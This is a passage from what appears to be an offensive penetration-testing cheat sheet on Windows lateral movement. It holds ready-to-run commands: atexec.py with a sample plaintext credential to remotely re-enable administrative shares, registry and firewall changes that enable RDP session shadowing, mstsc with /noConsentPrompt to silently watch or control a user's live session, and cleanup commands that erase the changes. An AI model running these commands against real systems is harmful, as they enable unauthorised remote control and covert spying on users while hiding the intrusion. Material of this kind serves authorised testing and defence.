 Enable ADMIN shares manually by restoring [AutoShareServer](https://learn.microsoft.com/ru-ru/troubleshoot/windows-server/networking/remove-administrative-shares):

```
$ atexec.py -nooutput megacorp.local/snovvcrash:'Passw0rd!'@192.168.1.11 'reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters" /v AutoShareServer /t REG_DWORD /d 1 /f && net stop server && net start server'
```



### Shadow RDP

- [https://swarm.ptsecurity.com/remote-desktop-services-shadowing/](https://swarm.ptsecurity.com/remote-desktop-services-shadowing/)
- [https://winitpro.ru/index.php/2014/02/12/rds-shadow-v-windows-2012-r2/](https://winitpro.ru/index.php/2014/02/12/rds-shadow-v-windows-2012-r2/)
- [https://darkbyte.net/autordpwn-la-guia-definitiva/](https://darkbyte.net/autordpwn-la-guia-definitiva/)
- [https://github.com/JoelGMSec/AutoRDPwn](https://github.com/JoelGMSec/AutoRDPwn)

Enable Shadow RDP via group policies or by manually setting the registry and connect to an active session on the target machine.

Enable:

```
Cmd > reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows NT\Terminal Services" /v Shadow /t REG_DWORD /d 4 (or 2 for mstsc /control) /f
Cmd > netsh advfirewall firewall set rule name="Remote Desktop - Shadow (TCP-In)" new enable=yes
Cmd > netsh advfirewall firewall set rule name="File and Printer Sharing (SMB-In)" new enable=yes
PS > New-ItemProperty "HKLM:\SOFTWARE\Policies\Microsoft\Windows NT\Terminal Services" -Name "Shadow" -PropertyType "DWORD" -Value 4 (or 2 for mstsc /control) -Force
PS > Enable-NetFirewallRule RemoteDesktop-Shadow-In-TCP
PS > Enable-NetFirewallRule FPS-SMB-In-TCP*
```

Shadow the RDP:

```
Cmd > qwinsta.exe /server:192.168.1.11
Cmd > mstsc.exe /v:192.168.1.11 /shadow:<ID> /noConsentPrompt [/control]
```

Cleanup:

```
Cmd > reg delete "HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows NT\Terminal Services" /v Shadow /f
Cmd > netsh advfirewall firewall set rule name="Remote Desktop - Shadow (TCP-In)" new enable=no
Cmd > netsh advfirewall firewall set rule name="File and Printer Sharing (SMB-In)" new enable=no
PS > Remove-ItemProperty "HKLM:\SOFTWARE\Policies\Microsoft\Windows NT\Terminal Services" -Name "Shadow" -Force
PS > Disable-NetFirewallRule RemoteDesktop-Shadow-In-TCP
PS > Disable-NetFirewallRule FPS-SMB-In-TCP*
```

